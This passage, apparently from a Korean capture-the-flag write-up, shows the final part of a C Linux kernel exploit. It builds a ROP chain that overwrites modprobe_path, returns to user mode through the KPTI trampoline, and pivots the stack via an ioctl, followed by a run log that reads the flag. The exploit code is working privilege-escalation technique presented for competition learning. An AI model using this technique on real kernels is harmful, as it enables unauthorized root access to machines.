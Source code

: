 ```c

    uint64_t mov_dwordptr_rbx_eax__ret = kernel_base + 0x4940e3;
    uint64_t pop_rax__ret = kernel_base + 0x1ae94c;
    uint64_t pop_rbx__ret = kernel_base + 0x94167;
    
    // overwrite moprobe_path
    fake_stack[stack_target] = pop_rbx__ret;
    fake_stack[stack_target + 1] = modprobe_path;
    fake_stack[stack_target + 2] = pop_rax__ret;
    fake_stack[stack_target + 3] = 0x706d742f;
    fake_stack[stack_target + 4] = mov_dwordptr_rbx_eax__ret;
    fake_stack[stack_target + 5] = pop_rbx__ret;
    fake_stack[stack_target + 6] = modprobe_path + 4;
    fake_stack[stack_target + 7] = pop_rax__ret;
    fake_stack[stack_target + 8] = 0x782f;
    fake_stack[stack_target + 9] = mov_dwordptr_rbx_eax__ret;
    // return to usermode with KPTI trampoline
    fake_stack[stack_target + 10] = kpti_trampoline;
    fake_stack[stack_target + 11] = 0; // dummy 1
    fake_stack[stack_target + 12] = 0; // dummy 2
    fake_stack[stack_target + 13] = (uint64_t)&get_flag; // user_ip
    fake_stack[stack_target + 14] = user_cs;
    fake_stack[stack_target + 15] = user_rflags;
    fake_stack[stack_target + 16] = user_sp;
    fake_stack[stack_target + 17] = user_ss;
    
    // jump to pointer
    // rax is gaget address
    leak_buffer[2] = (xchg_eax_esp__ret - (module_base_address + 0x24c0 + 0x20)) / 8;
    printf("0x%llx\n", module_base_address + 0x24c0 + 0x20 + (leak_buffer[2] * 8));

    // go to rop
    ioctl_control(leak_buffer, JUMP_POINTER);

    return 0;
}
```

그러면 읽을 수 없는 flag을 읽을 수 있게 됐다!

```bash
~ $ ./exploit 
commit_address: 0xffffffff9b6fc0f0
module base address: 0xffffffffc02d7000
kernel base: 0xffffffff9b600000
0xffffffff9b843298
modprobe_path: 0xffffffff9d08b340
0xffffffff9b843298
/tmp/trigger: line 1: ����: not found
cce2023{...}
Segmentation fault
~ $ 
```
